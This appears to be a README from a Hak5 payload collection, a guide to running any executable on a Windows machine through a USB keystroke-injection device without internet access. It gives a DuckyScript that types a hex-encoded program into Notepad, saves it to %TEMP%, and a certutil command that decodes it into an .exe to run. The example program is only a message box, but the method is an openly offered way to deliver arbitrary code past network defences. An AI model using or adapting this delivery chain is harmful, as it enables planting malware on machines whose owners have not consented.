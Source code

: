 # Install And Run Any Arbitrary Executable - No Internet And Root Needed

Through this guide you will be able to create executable programs that can be installed via DuckyScript in such a way as to avoid using the Internet altogether. This type of installation can lead to serious damage to machines so do it only if you are fully aware and sure of what you are doing, in this example you will already find the code in hexadecimal but if you want to be sure recompile the executable following the following guide.

Executables have been removed for security reasons.

**Category**: Execution

# Guide to Creating an Executable Program using Python

## Introduction

This guide provides detailed instructions on how to use Python to create an executable program, generate hexadecimal code, and automate the execution of the application trough DuckyScript. Practical example in assets directory.

## Creating the Python Program

To begin, create a Python program that performs the desired functionality. You can use any programming language of your choice, but for this guide, we'll be using Python.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

## Creating the Executable using PyInstaller

Once the Python program is ready, we can use PyInstaller to create an executable file. PyInstaller converts the Python program into a standalone executable that can be run on any compatible system without requiring Python to be installed.

Install PyInstaller using the following command:

```powershell
pip install pyinstaller
```

To create the executable, run the following command in the terminal:

```powershell
pyinstaller --onefile full/path/to/the/file/example.py
```

Replace `example.py` with the filename of your Python script. The `--onefile` flag ensures that the output is a single executable file. Remember that the executable file can be found within the path `dist/example.exe`.

## Generating Hexadecimal Code

Next, we'll generate the hexadecimal code from the executable file. This step is necessary if you intend to automate the execution of the program.

To generate the `hexadecimal` code, you can use various methods or libraries. In this case I decided to create another program in Python capable of doing this conversion, the partial code is as follows but you can find the entire file in the assets folder.

```python
# Rest of the code...
with open(filename, 'rb') as file:
    binary_data = file.read()
    hex_code = binascii.hexlify(binary_data).decode()
# ...
```

## Creating a DuckyScript to Automate Execution

To create the payload in DuckyScript you simply add the hexadecimal code inside a STRING command immediately after opening the notepad.

```duckyscript
DEFINE #HEX_CODE <hexadecimal_code>

DELAY 500
GUI r
DELAY 500
STRING notepad.exe
ENTER
DELAY 500
STRING #HEX_CODE

DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
ALTSTRING "%TEMP%\script.hex"
```

Replace `<hexadecimal_code>` with the actual hexadecimal code generated in the previous step. I used a combo ALT F and STRING S for save the file using `"%TEMP%\script.hex"` that save it in a `TEMP` directory

## Decoding Hexadecimal Code and Executing the Program
Now, we need to decode the hexadecimal code and execute the program. We can use the `certutil` command to accomplish this.

Once saved the file with a hex extension, run the following command in the Command Prompt:

```powershell
certutil -f -decodeHex "%TEMP%\script.hex" "%TEMP%\script.exe"
```

Replace `script.exe` with the desired output filename for the decoded program.

Finally, run the executable on the computer, or any other compatible device, to open start execution of the program.

These are the steps required to create an executable program with Python, generate the hexadecimal code, and automate its execution. Feel free to modify the instructions to suit your specific needs or programming language preferences.

Happy Hacking!

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>